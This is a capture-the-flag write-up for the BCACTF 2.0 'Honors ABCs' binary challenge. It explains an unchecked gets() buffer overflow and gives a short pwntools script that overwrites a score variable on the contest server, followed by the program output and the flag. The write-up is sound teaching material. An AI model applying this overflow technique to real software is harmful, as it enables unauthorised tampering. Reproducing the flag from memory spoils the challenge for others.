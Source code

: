 # BCACTF 2.0 – Honors ABCs

* **Category:** Binex
* **Points:** 75
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Here at BCA, we don't deal with normal classes. Everything is at the honors level or above! Let's start by learning about the alphabet.
>
> And by learning, we obviously mean testing. Don't cheat!

## Solution

The challenge page provides us with a [binary](Backup/honors-abcs) and the [C code](Backup/honors-abcs.c) it was compiled from.

Running the binary presents us with a single question quiz, which requires us to recite the alphabet.

In order to read our input, the [gets](https://man7.org/linux/man-pages/man3/gets.3.html) function is used, which comes with a "Never use this function" warning for a good reason, it performs no boundary checks and reads until a terminating newline or EOF is read. This means that we are free to overflow the buffer that the alphabet is being read into. 

The goal is to get a score greater than 100, as that will present us with the flag. Our only options appears to be causing a buffer overflow to occur, so that we can set the score to whatever value we like. In order to figure out how many characters I need to input before we get to the score variable, I decided to load the binary up in [Ghidra](https://ghidra-sre.org/), to look at the decompiled code.

![image](../.github/honors-abcs-1.jpg)

As we can see in the decompiler output, our input alphabet is stored in local_58(rbp-0x50), and the score is stored in local_c(rbp-0x04), substracting the two gives us 0x4C or 76 characters. To prevent our custom score from being overwritten we have to ensure that the very first character of our input is not equal to "a", so that we break out of the scoring loop before any score is set.

So that brings us to the final solution which is 76 characters followed by our custom score.

The script I used to solve the challenge is as follows;
```python
from pwn import *

#p = process('honors-abcs')
p = remote('bin.bcactf.com', 49155)
p.sendline(b"z"*76 + p32(0x1337))

p.interactive()
```

This will eventually output the following;
```
Welcome to your first class at BCA: Honors-level ABCs.
Because we expect all our students to be perfect, I'm not going to teach you anything.
Instead, we're going to have a quiz!
And, of course, I expect all of you to know the material already.

╔════════════════════════╗
║ THE QUIZ               ║
║                        ║
║ 1) Recite the alphabet ║
╚════════════════════════╝

Answer for 1: How did you end up here?
You must have cheated!
Let me recite the BCA plagarism policy.

...

also also have the flag!
bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}

Alright, class dismissed!
```

So the flag for this challenge is:

`bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}`